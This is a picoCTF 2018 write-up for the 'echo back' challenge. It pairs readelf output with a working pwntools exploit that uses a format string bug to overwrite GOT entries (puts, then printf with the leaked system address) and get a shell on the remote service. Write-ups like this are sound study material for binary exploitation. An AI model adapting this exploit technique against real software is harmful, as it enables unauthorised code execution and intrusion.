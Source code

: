 echo back - Points: 500
===========

## Description

>This program we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with nc 2018shell1.picoctf.com 26532

## Hint:

> * hmm, printf seems to be dangerous...
> * You may need to modify more than one address at once.
> * Ever heard of the Global Offset Table?

## Useful Information
```
$readelf -r echo_back|grep "puts\|printf\|system" && nm echo_back|grep vuln
0804a010  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a01c  00000507 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a020  00000607 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
080485ab T vuln
```
Format String Bug detected :exclamation:

## Exploit

# **REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

> 1.Loop in the vuln() for reuse FS Bug (Overwrite GOT puts with vuln address) 
> 2.Leak address of system (Read Got address of System with "%s")
> 3.Write in a function the leaked address of system in a GOT Entry of printf(read will not work)


```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

puts=0x804a01c
printf=0x804a010
sys=0x804a020
vuln_l=(0x80485ab&0x0000ffff)
vuln_h=(0x80485ab>>16)
rem = remote("2018shell3.picoctf.com",26532)

rem.recv()
payload=p32(puts+2)+p32(puts)+p32(sys)+"%"+"%dx" % (vuln_h-12)+"%7$hn"+"%"+"%dx" % (vuln_l-vuln_h)+"%8$hn#%9$sX"
rem.sendline(payload)
sys=int(rem.recvuntil("X").split("#")[1][:4][::-1].encode("hex"),16)
sys_l=sys&0x0000ffff
sys_h=sys>>16
payload=p32(printf)+p32(printf+2)+"%"+"%dx" % (sys_l-8)+"%7$hn"+"%"+"%dx" % (sys_h-sys_l)+"%8$hn"
rem.sendline(payload)
rem.interactive()
rem.close()

```


